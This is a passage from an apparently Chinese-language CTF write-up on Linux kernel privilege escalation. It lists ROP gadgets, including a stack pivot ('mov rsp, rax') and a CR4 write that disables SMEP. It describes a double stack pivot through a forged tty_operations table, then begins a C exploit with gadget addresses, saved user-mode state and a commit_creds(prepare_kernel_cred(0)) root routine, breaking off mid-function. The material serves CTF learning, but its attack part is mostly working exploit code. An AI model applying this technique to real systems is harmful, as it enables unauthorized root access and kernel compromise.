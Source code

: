 > 这题的vmlinux我用ropper都找不到下面这个gadget，非常奇怪，最后还是用的ROPgadget

找到一个好用的gadget

```
0xffffffff8181bfc5 : mov rsp, rax ; dec ebx ; jmp 0xffffffff8181bf7e
```

调试发现该gadget等价于

```
mov rsp, rax ; dec ebx ; ret
```

那么利用这条gadget我们便可以很好地完成栈迁移的过程，执行我们所构造的ROP链

而`tty_operations`结构体开头到其write指针间的空间较小，因此我们还需要进行二次栈迁移，这里随便选一条改rax的gadget即可.

```
0xffffffff8100ce6e: pop rax; ret; 
```

以及修改cr4寄存器的gadget

```
0xffffffff81004d80: mov cr4, rdi; pop rbp; ret;
```

#### III. Exploit

````c
//  musl-gcc ./exp.c --static -masm='intel' -o ./exploit

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define MOV_CR4_RDI_POP_RBP 0xffffffff81004d80;
#define MOV_RSP_RAX 0xffffffff8181bfc5;
#define POP_RAX 0xffffffff8100ce6e;
#define POP_RDI 0xffffffff810d238d;
#define SWAPGS_POP_RBP 0xffffffff81063694;
#define IRETQ 0xffffffff814e35ef;
#define MOV_RSP_RAX_DEC_EBX 0xffffffff8181bfc5;

// commit_creds(prepare_kernel_cred(NULL))

size_t commit_creds = NULL;
size_t prepare_kernel_cred = NULL;
size_t user_cs,user_ss,user_rflags,user_sp;
void* fake_tty_operations[30];
// size_t vmlinux_base = 0;
void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("[*] Status has been saved.\n");
}

void root(){
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
````